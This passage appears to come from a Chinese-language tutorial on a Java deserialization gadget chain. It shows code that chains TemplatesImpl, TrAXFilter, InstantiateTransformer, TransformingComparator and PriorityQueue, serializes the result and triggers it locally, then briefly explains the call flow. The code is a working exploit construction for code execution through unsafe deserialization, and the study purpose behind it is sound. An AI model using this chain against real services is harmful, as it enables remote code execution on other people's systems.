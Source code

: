 ```java
        byte[][] bytecodes = {code};

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", bytecodes);
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        /**
         * TrAXFilter 构造函数能直接触发 所以不用利用 invoke 那个
         */
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{obj})
        });

        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(2,comparator);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue,2);

        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,comparator);

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        // 本地测试触发
        // System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object) ois.readObject();

    }


}
```

运行即可。

## 流程解析

首先，TrAXFilter构造器传入TemplatesImpl会调用`newTransformer()`，由`InstantiateTransformer.transform()`调用指定的类构造器，`TransformingComparator.compare()`调用`this.transformer.transform()`，PriorityQueue反序列化调用`comparator.compare()`。
